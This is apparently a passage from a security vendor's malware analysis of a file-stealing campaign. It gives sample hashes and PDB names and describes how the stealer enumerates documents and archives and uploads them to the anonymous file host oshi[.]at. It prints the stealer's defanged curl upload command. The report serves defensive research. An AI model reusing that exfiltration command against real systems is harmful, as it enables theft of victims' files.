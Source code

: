 

MD5
Compilation Timestamp
PDB


da745b60b5ef5b4881c6bc4b7a48d784
2023-09-26
syscheck.pdb


f68b17f1261aaa4460d759d95124fbd4
2023-09-26
alam.pdb


237961bbba6d4aa2e0fae720d4ece439
2023-10-26
alam.pdb


d2949a3c4496cb2b4d204b75e24390d9
2023-12-08
Zew.pdb


fc61b985d8c590860f397d943131bfb5
2023-12-11
Zew.pdb



Changes in PDB path name can be seen in October and December samples but the similarity is almost identical when compared via BinDiff, which is 91%, except for few minor changes.

Fig. 12 – Similarity in samples
It enumerates all document and archive files in all the drives it fetched previously in the downloader stage. Two log files are created inside a new folder with different names (Micro, File) for each sample under the ProgramData directory. They are used to store records of uploaded files and logs of enumerated files. After saving enumerated files to ‘Logs.txt,’ each file is uploaded via the curl PUT method to oshi[.]at domain, an anonymous public file-sharing engine called OshiUpload.
“curl -T C:\Users\test\Downloads\<filename>.zip hxxps://oshi[.]at” 
Along with the desktop name, the links to download these files are saved in ‘Records.txt,’ which contains three URLs for each file. Two are Clearnet links – one for managing and the other for downloading. The third is a Tor domain of Oshi to download via hidden service.

Fig. 13 – Download links of uploaded files
The management page displays the attributes of the file uploaded – download links, size, type, hash, and timestamp. Options for destroying the file along with an expiration timer are present.

Fig. 14 – Management page for uploaded files
The log files with timestamps in the filename are uploaded to the fake AWES domain. The server response is verified for a successful upload, after which it goes into an infinite sleep until interrupted.

Fig. 15 – Server response after uploading logs
With the new stealer payloads that we observed in December, the threat actor utilizes a new bait document that belongs to Kailash Satyarthi Children’s Foundation. The document is available on their website, which is related to their statistics report on “Child Marriage and other crimes against Children in Assam”.
